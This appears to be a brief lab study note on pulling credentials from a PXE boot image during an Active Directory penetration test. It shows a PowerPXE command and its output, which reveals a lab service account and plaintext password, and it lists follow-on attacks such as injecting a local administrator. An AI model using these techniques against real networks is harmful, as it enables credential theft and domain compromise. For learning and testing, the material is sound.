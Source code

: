 #### Recovering Credentials from a PXE Boot Image

- We can exfiltrate stored credentials. 
- There are various attacks that we could stage. 
	- Inject a local administrator user
	- Install the image to have a domain-joined machine.

1. We use ***powerpxe*** to recover the credentials
**Note :** Do this step manually by extracting the image and looking for the `bootstrap.ini` file, where these types of credentials are often stored

```powershell
Get-FindCredentials -WimFile FILENAME.wim
```

Output 
```output
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = svcMDT
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = PXEBootSecure1@
```
## Configurations files
- Tools such as **seatbelt** can be used to harvest configuration files
